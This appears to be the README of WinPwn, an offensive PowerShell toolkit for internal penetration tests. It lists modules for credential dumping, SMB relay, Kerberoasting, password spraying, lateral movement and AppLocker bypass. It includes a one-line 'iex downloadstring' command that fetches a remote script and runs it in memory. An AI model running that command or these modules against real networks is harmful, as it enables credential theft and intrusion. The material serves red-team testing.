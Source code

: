 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. For this reason I wrote my own script with automatic proxy recognition and integration. The script is mostly based on well-known large other offensive security Powershell projects. I only load them one after the other into RAM via IEX Downloadstring and partially automate the execution to save time.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions.

Different local recon modules, domain recon modules, pivilege escalation and exploitation modules. Any suggestions, feedback and comments are welcome!

Just Import the Modules with "Import-Module .\WinPwn_v0.7.ps1" or with 
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')

Functions available after Import:
1) #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2) #### `Inveigh` -> Executes Inveigh in a new Console window (https://github.com/Kevin-Robertson/Inveigh), SMB-Relay attacks with Session management afterwards
3) #### `sessionGopher` -> Executes Sessiongopher and Asking for parameters (https://github.com/Arvanaghi/SessionGopher)
4) #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz (https://github.com/PowerShellMafia/PowerSploit)
5) #### `localreconmodules` -> Collects system Informations, Executes passhunt (https://github.com/Dionach/PassHunt), Executes Get-Computerdetails and Just another Windows Privilege escalation script + Winspect (https://github.com/PowerShellMafia/PowerSploit, https://github.com/A-mIn3/WINspect, https://github.com/411Hall/JAWS)
6) #### `JAWS` -> Just another Windows Privilege Escalation script gets executed
7) #### `domainreconmodules` -> Different Powerview situal awareness functions get executed and the output stored on disk. In Addition a Userlist for DomainpasswordSpray gets stored on disk. An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. (https://github.com/sense-of-security/ADRecon, https://github.com/PowerShellMafia/PowerSploit, https://github.com/dafthack/DomainPasswordSpray)
8) #### `Privescmodules` -> Executes different privesc scripts in memory (Sherlock https://github.com/rasta-mouse/Sherlock, PowerUp, GPP-Files, WCMDump)
9) #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) (https://github.com/AlessandroZ/LaZagne)
10) #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. Domainpassword-Spray for new Credentials can also be used here.
11) #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems (https://github.com/EmpireProject/Empire)
12) #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder from Powerview (Powersploit)
13) #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14) #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15) #### `isadmin` -> Checks for local admin access on the local system
16) #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17) #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering. (https://blog.netspi.com/exploiting-adidns/#wildcard)

The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

Todo:
- Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories.
- Proxy Options via PAC-File are not correctly found in the moment
- Obfuscate all Scripts for AV-Evasion

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)


## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
